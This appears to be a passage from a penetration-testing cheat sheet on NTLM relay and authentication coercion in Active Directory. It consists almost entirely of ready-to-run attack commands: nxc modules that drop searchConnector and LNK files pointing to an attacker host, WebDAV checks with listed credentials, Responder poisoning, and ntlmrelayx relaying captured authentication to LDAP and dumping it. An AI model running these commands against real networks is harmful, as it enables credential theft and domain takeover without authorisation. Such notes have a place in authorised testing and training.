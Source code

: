 Or use nxc to create and drop the file

```bash
nxc smb 172.16.117.3 -u anonymous -p '' -M drop-sc -o URL=https://172.16.117.30/testing SHARE=smb FILENAME=@secret
```

After user connects WebClient service will start

```bash
nxc smb 172.16.117.0/24 -u zenpc$ -p pass123 -M webdav
```

If found a host with WebDav enabled, perform HTTP authentication

```bash
smb 172.16.117.3 -u anonymous -p '' -M slinky -o SERVER=NOAREALNAME@8008 NAME=important
```

Finally start responder to poison and nltmrelay to relay the HTTP authentcation to LDAP.

```bash
# Poison
sudo python3 Responder.py -I ens192

# Ntlmrelay 
ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-smb-server --http-port 8008 --no-da --no-acl --no-validate-privs --lootdir ldap_dump
```

### <mark style="color:yellow;">Authentication Coercion</mark>

1. Authenticate to a remote machine with valid creds, like over SMB.
2. Connect to a remote SMB pipe like `\PIPE\netdfs`, `\PIPE\efsrpc`, `\PIPE\lsarpc`
3. Bind to an RPC protocol to call its methods on target.

#### With nxc drop searchConnector file

```bash
nxc smb 172.16.117.3 -u anonymous -p '' -M drop-sc -o URL=https://172.16.117.30/testing SHARE=Testing FILENAME=@secret
```

#### Check if WebDav is enabled

```bash
# Check if enabled
crackmapexec smb 172.16.117.60 -u zenpc$ -p pass123 -M webdav

# Poison
sudo python3 Responder.py -I ens192

# Ntlmrelay 
ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-smb-server --http-port 8008 --no-da --no-acl --no-validate-privs --lootdir ldap_dump
```

